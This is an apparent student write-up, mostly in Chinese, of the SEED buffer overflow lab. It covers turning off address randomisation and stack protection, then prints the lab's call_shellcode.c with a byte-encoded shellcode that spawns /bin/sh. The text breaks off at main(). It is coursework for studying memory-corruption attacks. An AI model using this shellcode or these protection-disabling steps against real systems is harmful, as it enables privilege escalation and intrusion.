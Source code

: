 

# Buffer Overﬂow Vulnerability Lab

> 1120162015 李博

## 0x00 准备工作

### a. 更改系统设置

如下，将地址随机化关闭，并将具有set-UID机制保护的bash更换为zsh。

![system_setup](../images/lab3-task0-system-setup.png)

### b. 程序编译设置

如下，将栈保护关闭，栈可执行打开。

![prog_setup](../images/lab3-task0-prog-setup.png)

## 0x01 Task1：Running Shellcode

### Step1: 解释源码 

脚本内容如下

```c
[05/13/19]seed@VM:~/.../code$ cat call_shellcode.c 
/* call_shellcode.c  */

/*A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>

const char code[] =
  "\x31\xc0"             /* xorl    %eax,%eax              */
  "\x50"                 /* pushl   %eax                   */
  "\x68""//sh"           /* pushl   $0x68732f2f            */
  "\x68""/bin"           /* pushl   $0x6e69622f            */
  "\x89\xe3"             /* movl    %esp,%ebx              */
  "\x50"                 /* pushl   %eax                   */
  "\x53"                 /* pushl   %ebx                   */
  "\x89\xe1"             /* movl    %esp,%ecx              */
  "\x99"                 /* cdq                            */
  "\xb0\x0b"             /* movb    $0x0b,%al              */
  "\xcd\x80"             /* int     $0x80                  */
;

int main(int argc, char **argv)
{
```